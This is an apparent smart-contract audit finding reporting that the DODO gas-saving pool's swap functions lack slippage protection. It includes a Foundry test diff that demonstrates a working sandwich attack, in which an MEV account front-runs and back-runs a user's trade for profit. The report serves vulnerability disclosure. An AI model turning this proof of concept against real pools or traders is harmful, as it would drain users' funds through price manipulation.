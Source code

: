 Generous Onyx Walrus

high

# Loss of funds during trades due to lack of slippage checks

## Summary
The price of a trade transaction depends on the amount of tokens being sold and the current state of the pool. Each trade changes the state of the pool. Thus, if the state of the pool is changed before a user transaction, then user may receive a significantly lower amount than expected.

## Vulnerability Detail
The amount of tokens a user receives is computed based on the Proportional Market Makers (PMM) formula, where `k` represents the "slippage factor". The closer `k` is to 1, the more potently each transaction impacts the current price.

```diff
diff --git a/dodo-gassaving-pool/test/GPSTrader.t.sol b/dodo-gassaving-pool/test/GPSTrader.t.sol
index 684b28d..e31d746 100644
--- a/dodo-gassaving-pool/test/GPSTrader.t.sol
+++ b/dodo-gassaving-pool/test/GPSTrader.t.sol
@@ -17,6 +17,7 @@ contract TestGSPTrader is Test {
     // Test Params
     address USER = vm.addr(1);
     address OTHER = vm.addr(2);
+    address MEV = vm.addr(3);
     address constant USDC_WHALE = 0x51eDF02152EBfb338e03E30d65C15fBf06cc9ECC;
     address constant DAI_WHALE = 0x25B313158Ce11080524DcA0fD01141EeD5f94b81;
     address constant USDC = 0xA0b86991c6218b36c1d19D4a2e9Eb0cE3606eB48;
@@ -42,6 +43,52 @@ contract TestGSPTrader is Test {
         mockQuoteToken.mint(USER, type(uint256).max);
     }

+    function test_sandwichAttack() public {
+        // transfer some tokens to USER
+        vm.startPrank(DAI_WHALE);
+        dai.transfer(USER, BASE_RESERVE);
+        dai.transfer(OTHER, BASE_INPUT);
+        dai.transfer(MEV, BASE_RESERVE);
+        vm.stopPrank();
+        vm.startPrank(USDC_WHALE);
+        usdc.transfer(USER, QUOTE_RESERVE);
+        vm.stopPrank();
+
+        // User buys shares
+        vm.startPrank(USER);
+        dai.transfer(address(gsp), BASE_RESERVE);
+        usdc.transfer(address(gsp), QUOTE_RESERVE);
+        gsp.buyShares(USER);
+        vm.stopPrank();
+
+        // Other user wants to sell base
+        (uint256 expectedQuoteAmount,,,) = gsp.querySellBase(OTHER, BASE_INPUT); // 0.999935 USDC
+
+        // MEV bot front-run the transaction
+        uint256 mevBotDaiBalanceBefore = dai.balanceOf(MEV);
+        vm.startPrank(MEV);
+        dai.transfer(address(gsp), BASE_RESERVE);
+        gsp.sellBase(MEV);
+        vm.stopPrank();
+
+        // Other's transaction executed
+        vm.startPrank(OTHER);
+        dai.transfer(address(gsp), BASE_INPUT);
+        uint256 receiveQuoteAmount = gsp.sellBase(OTHER);
+        vm.stopPrank();
+
+        // MEV bot sells quote
+        vm.startPrank(MEV);
+        usdc.transfer(address(gsp), usdc.balanceOf(MEV));
+        gsp.sellQuote(MEV);
+        vm.stopPrank();
+
+        uint256 mevBotDaiBalanceAfter = dai.balanceOf(MEV);
+
+        assert(receiveQuoteAmount < expectedQuoteAmount);
+        assert(mevBotDaiBalanceBefore < mevBotDaiBalanceAfter);
+    }
+
     function test_updateTargetOverflow() public {
         GSP gspTest = new GSP();
         gspTest.init(
```

## Impact
This vulnerability could potentially lead to financial losses for users who receive a significantly lower amount than expected. Furthermore, it opens up possibilities for sandwich attacks.

## Code Snippet
https://github.com/sherlock-audit/2023-12-dodo-gsp/blob/main/dodo-gassaving-pool/contracts/GasSavingPool/impl/GSPTrader.sol#L40-L72
https://github.com/sherlock-audit/2023-12-dodo-gsp/blob/main/dodo-gassaving-pool/contracts/GasSavingPool/impl/GSPTrader.sol#L79-L113

## Tool used

Manual Review

## Recommendation
Add slippage protection.
